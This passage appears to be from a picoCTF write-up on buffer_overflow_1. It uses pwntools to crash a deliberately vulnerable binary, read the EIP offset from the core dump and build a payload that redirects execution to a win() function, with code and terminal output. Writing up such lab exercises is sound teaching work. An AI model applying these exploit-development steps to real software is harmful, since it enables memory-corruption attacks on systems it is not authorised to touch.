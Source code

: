 And we get the flag! Isn't that awesome? 
From now on we will be using python in order to exploit the buffer overflows.

## 🌪Exploiting (Automated II)

We will now complete the exploit by automating the process of getting the **EIP** offset. 
For this we will use `pwntools` to parse `core dump` files, which are generated by Linux whenever errors occur during a running process. They contain lots of
First, let's generate an `elf` object using pwntool's `ELF()` class

```python
from pwn import *

elf = context.binary = ELF('./vuln')
```

Afterwards we generate a `cyclic()` payload and start a local process referencing the `elf` object. If we use the `.wait()` method a segmentation fault will occur and hence a core dump will be generated.

```python
p = process(elf.path)
p.sendline(cyclic(100))
p.wait()
```

Now we can run the exploit and see the core file being generated:

```bash
$ python exploit.py
[*] '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_1/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    **********NX**********:       **********NX********** disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_1/vuln': pid 5906
[*] Process '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_1/vuln' stopped with exit code -11 (SIGSEGV) (pid 5906)
$ ls
core  exploit.py  flag.txt  pattern.txt  vuln  vuln.c
```

That worked. We can now use the `Coredump()` class to parse the core file. Afterwards we can get the **EIP** as well as the address of our `win()` function. To craft the final payload we will now use `flat()`, a function that flattens arguments into a string.

```python
core = Coredump('./core')

payload = flat({
	cyclic_find(core.eip): elf.symbols.win
})
```
